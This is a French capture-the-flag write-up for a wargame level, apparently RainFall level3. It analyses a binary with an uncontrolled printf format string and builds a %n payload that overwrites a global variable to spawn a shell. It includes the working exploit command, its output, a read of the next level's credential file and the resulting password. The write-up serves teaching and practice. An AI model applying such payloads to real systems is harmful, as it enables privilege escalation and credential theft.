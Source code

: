 # Level3: FORMAT STRING

### Première étape — tester le programme

```bash
$ ./level3
a
a
```

Le programme affiche l'entrée.

### Ouvrons le binaire
```s
0804851a <main>:
 804851a:	55                   	push   %ebp
 804851b:	89 e5                	mov    %esp,%ebp
 804851d:	83 e4 f0             	and    $0xfffffff0,%esp
 8048520:	e8 7f ff ff ff       	call   80484a4 <v>
 8048525:	c9                   	leave  
 8048526:	c3                   	ret

080484a4 <v>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	81 ec 18 02 00 00    	sub    $0x218,%esp
 80484ad:	a1 60 98 04 08       	mov    0x8049860,%eax
 80484b2:	89 44 24 08          	mov    %eax,0x8(%esp)
 80484b6:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484c4:	89 04 24             	mov    %eax,(%esp)
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484d2:	89 04 24             	mov    %eax,(%esp)
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
 80484da:	a1 8c 98 04 08       	mov    0x804988c,%eax
 80484df:	83 f8 40             	cmp    $0x40,%eax
 80484e2:	75 34                	jne    8048518 <v+0x74>
 80484e4:	a1 80 98 04 08       	mov    0x8049880,%eax
 80484e9:	89 c2                	mov    %eax,%edx
 80484eb:	b8 00 86 04 08       	mov    $0x8048600,%eax
 80484f0:	89 54 24 0c          	mov    %edx,0xc(%esp)
 80484f4:	c7 44 24 08 0c 00 00  	movl   $0xc,0x8(%esp)
 80484fb:	00
 80484fc:	c7 44 24 04 01 00 00  	movl   $0x1,0x4(%esp)
 8048503:	00
 8048504:	89 04 24             	mov    %eax,(%esp)
 8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
 804850c:	c7 04 24 0d 86 04 08  	movl   $0x804860d,(%esp)
 8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
 8048518:	c9                   	leave  
 8048519:	c3                   	ret  
```

La première chose que nous pouvons remarquer, c'est que contrairement au niveau précédent nous n'avons pas `gets()` mais `fgets()` (version protégée). Plus loin nous voyons un appel à `printf` particulier : regardons cela de plus près.

```c
void v(void)
{
  char local_20c[520];

  fgets(local_20c, 0x200, stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n", 1, 0xc, stdout);
    system("/bin/sh");
  }
  return;
}
```

- 1ᵉʳ constat : `printf()` prend en paramètre **seulement** le buffer retourné par `fgets()` c'est très dangereux.
- 2ᵉᵐᵉ constat : il existe une condition qui lance un shell (`system`) si `m == 0x40` c'est notre objectif pour obtenir un shell.
- 3ᵉᵐᵉ constat : `m` est une variable globale dans la `.bss` comparée à `0x40` (64).

Comme nous le savons, modifier EAX dans GDB au moment du `cmp` ne suffit pas car le kernel set le **SUIDbinary= RUID**. L'objectif ici est donc de **bypasser la condition à l'exécution** en écrivant la valeur `0x40` dans la variable `m` **depuis** l'exécution normale, via une vulnérabilité de format string.

`fgets` empêche l'overflow classique, donc `ret2ret`/ret-overflow n'est pas applicable ici. En revanche `printf(local_20c)` nous donne une voie : **format string exploit**.

### PRINTF (LIBC) — EXPLOIT FORMAT STRING

`printf` est une très bonne fonction quand elle est utilisée correctement. Exemple sûr :

```c
#include <stdio.h>

int main(void) {
	char buffer[200] = {0};
	fgets(buffer, sizeof(buffer), stdin);
	printf("%s\n", buffer);
}
```

Mais si on fait ceci :

```c
int main(void) {
	char buffer[200] = {0};
	fgets(buffer, sizeof(buffer), stdin);
	printf(buffer); // ⚠️ l'utilisateur contrôle le format
}
```

Alors `printf` interprète la chaîne d'entrée comme **format** : l'attaquant peut utiliser `%x`, `%p`, `%s` pour **lire** la mémoire, ou `%n`, `%hn`, `%hhn` pour **écrire** dans la mémoire.

### Qu'est-ce qu'un "format string exploit" ?

C’est une faille qui arrive quand un programme laisse l’utilisateur écrire directement la phrase que `printf` (ou fonctions similaires) va utiliser pour afficher quelque chose. Imagine que `printf` est une machine qui suit des instructions écrites dans une phrase. Si un utilisateur peut écrire cette phrase, il peut y mettre des instructions que la machine ne devrait pas exécuter.

### Pourquoi c'est dangereux

- `printf("%s", user_input);` → sûr : on affiche la chaîne fournie.
- `printf(user_input);` → dangereux : l’utilisateur peut écrire des marqueurs (`%x`, `%s`, `%n`, …) qui disent à `printf` de lire ou d’écrire dans la mémoire du programme.
- Résultat : fuite d’informations (secrets, adresses) ou modification de la mémoire (changer une variable, forcer un chemin d'exécution).

### Calculez l'offset pour l'attaque

Maintenant que nous avons notre point d'entrée (`printf`) et que nous savons que nous devons bypasser `if (m == 0x40)`, nous allons trouver quel paramètre de notre `printf` contient notre donnée.

```bash
level3@RainFall:~$ ./level3
AAAA%p.%p.%p.%p
AAAA0x200.0xb7fd1ac0.0xb7ff37d0.0x41414141
```

La présence de `0x41414141` (ASCII de `AAAA`) dans la sortie indique que **notre chaîne `AAAA` est présente** à la position d'argument correspondante dans la pile. On utilise donc `%p`/`%x` pour **trouver l'offset** : l'index d'argument de `printf` où se trouve notre donnée.

> _Attention_ : `0x41414141` n'est **pas** automatiquement l'EIP. C'est la valeur `AAAA` trouvée sur la pile. Pour confirmer si l'EIP est écrasé, il faut regarder les registres et la pile dans GDB après un crash.

Maintenant que nous savons que le 4ᵉ paramètre correspond à `AAAA`, on peut utiliser cet offset pour écrire dans la variable `m`.

### Cherchez l'adresse de la variable `m`

Puisque `m` est dans la section `.bss`, on peut trouver son adresse avec `objdump` (ou `readelf`/`nm`). Exemple extrait :

```bash
level3@RainFall:~$ objdump -t ./level3 | grep "\bm\b"
0804988c g     O .bss  00000002 m
```

Ici l'adresse de `m` est `0x0804988c`.

### Créer l'exploit

Principe :
- Placer l'adresse de `m` (little-endian) dans l'entrée pour que `printf` la lise comme argument.
- Imprimer un total de 64 caractères (0x40) puis utiliser `%hhn`/`%n` pour écrire le nombre total d'octets imprimés dans l'adresse `m`.
- Utiliser l'**offset** trouvé auparavant (ici 4) pour indiquer quel argument contient l'adresse.

Exemple de payload :

```bash
python -c 'print b"\x8c\x98\x04\x08" + b"A"*(64-4) + b"%4$n"'
```

Explication :
- `"\x8c\x98\x04\x08"` : adresse de `m` (little-endian).
- `"A"*(64-4)` : on veut que le total des octets imprimés soit 64 ; 4 octets sont déjà comptés par l'adresse, donc on ajoute 60 `A` (ou autre padding) pour atteindre 64.
- `"%4$n"` : on utilise la position 4 (offset) et `%n` pour écrire un octet (la valeur 64) à l'adresse pointée par le 4ᵉ argument.

**Note** : selon l'alignement et la libc, il peut être nécessaire d'ajuster l'offset ou d'utiliser `%n`/`%hn` selon le type de la variable. Les spécificateurs positionnels (`%N$...`) rendent souvent l'exploit plus fiable.

### Exécution (exemple)

```bash
level3@RainFall:~$ (python -c 'print b"\x8c\x98\x04\x08" + b"A"*(64-4) + b"%4$n"'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
```

Tada ! L'écriture a fonctionné, la condition `m == 0x40` est vraie, le shell est lancé.

```bash
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

Bonne chance et have fun :)

_Pense à tester les offsets dans GDB (ou avec des payloads automatisés) si tu as des différences d'alignement._
